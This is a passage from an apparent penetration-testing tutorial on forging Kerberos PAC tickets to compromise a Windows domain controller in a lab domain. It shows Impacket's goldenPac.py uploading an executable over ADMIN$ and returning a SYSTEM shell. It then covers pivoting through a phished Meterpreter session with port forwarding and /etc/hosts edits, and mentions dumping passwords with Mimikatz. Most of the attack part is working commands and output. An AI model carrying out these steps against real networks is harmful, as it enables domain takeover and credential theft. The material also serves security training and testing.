 #### Alternatively with Impacket

The Golden PAC module included in Impacket makes post exploitation easier by performing it automatically for you. Once a TGT containing a forged PAC has been created it is used to create an SMB connection to the domain controller and the PsExec technique is used to gain command execution:

$ python goldenPac.py metasploitable.local/user01@msfdc01
Impacket v0.9.13-dev - Copyright 2002-2014 Core Security Technologies

Password:
[*] Requesting shares on msfdc01.....
[*] Found writable share ADMIN$
[*] Uploading file zYAhIGAf.exe
[*] Opening SVCManager on msfdc01.....
[*] Creating service WzhF on msfdc01.....
[*] Starting service WzhF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.0.6002]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>echo %COMPUTERNAME%
MSFDC01

### Exploiting Remotely

The second scenario is exploiting a target user who we have compromised remotely, such as via a phishing attack. We assume that we have a shell on the user’s machine, and have recovered their password (e.g. by escalating to SYSTEM and using Mimikatz to dump it).

[*] Meterpreter session 3 opened (172.16.3.76:8686 -> 172.16.80.100:49747) at 2014-12-10 11:55:10 +0000
sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid
Server username: METASPLOITABLE\user01
meterpreter > sysinfo
Computer        : MSFTS01
OS              : Windows 8.1 (Build 9600).
Architecture    : x64 (Current Process is WOW64)
System Language : en_GB
Meterpreter     : x86/win32

We need to be able to talk to the domain controller in order to use the exploit scripts. So, we add a port forward to meterpreter to pivot port 88 (kerberos) over our implant:

meterpreter > portfwd add -l 88 -p 88 -r 172.16.80.10
[*] Local TCP relay created: 0.0.0.0:88 <-> 172.16.80.10:88

The FQDN for the target system should also point to localhost so that traffic is forwarded via meterpreter. This can be done with a simple addition to /etc/hosts:

$ echo 127.0.0.1 msfdc01 >> /etc/hosts
$ echo 127.0.0.1 msfdc01.metasploitable.local >> /etc/hosts
